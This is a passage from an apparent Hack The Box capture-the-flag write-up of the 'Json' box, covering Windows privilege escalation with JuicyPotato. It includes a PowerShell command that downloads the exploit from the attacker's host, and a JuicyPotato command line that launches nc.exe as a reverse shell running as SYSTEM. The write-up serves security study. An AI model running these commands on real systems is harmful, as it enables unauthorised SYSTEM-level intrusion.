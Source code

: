 ![20](/writeups/htb/boxes/images/json_20.png# big)

Windows 2019 and Windows 10 1809 are unaffected by this but the version of Windows of the server is of earlier version.
To check system information:
```cmd
systeminfo
```
![21](/writeups/htb/boxes/images/json_21.png# big)

### JuicyPotato Exploitation
We can use the [JuicyPotato exploit](https://github.com/ohpe/juicy-potato/) to exploit this setting.<br>

It's also needed that a correct CLSID is selected in order for this to work. The list of CLSID I used for this version of windows is [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter)
The CLSID I used is this:



![22](/writeups/htb/boxes/images/json_22.png# big)
<br>

By using the same exploit python script, upload the executable to the server.

```Bash
Command: powershell.exe, /c invoke-webrequest http://10.10.14.87:8000/JuicyPotato.exe -outfile c:\\Windows\\Temp\\service.exe
```
<br>
After uploading the executable, set up another netcat in the attacking machine and execute the following at the current shell in the server.
```Bash
c:\Windows\Temp>.\service.exe -l 3333 -p c:\Windows\System32\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c c:\Windows\Temp\nc.exe 10.10.14.87 4445 -e cmd.exe"
```
<br>
After the netcat receives the connection, we are connected as ```NT AUTHORITY\SYSTEM``` on the server. We also should be able to get the root flag.

![23](/writeups/htb/boxes/images/json_23.png# big)

<br>

## Method 2

### Enumeration
If we go to C:\Program Files, there is a folder called "Sync2Ftp" and here is its contents:

![24](/writeups/htb/boxes/images/json_24.png# big)
<br>
After retrieving the two files, it can now be checked that the executable is .NET executable 
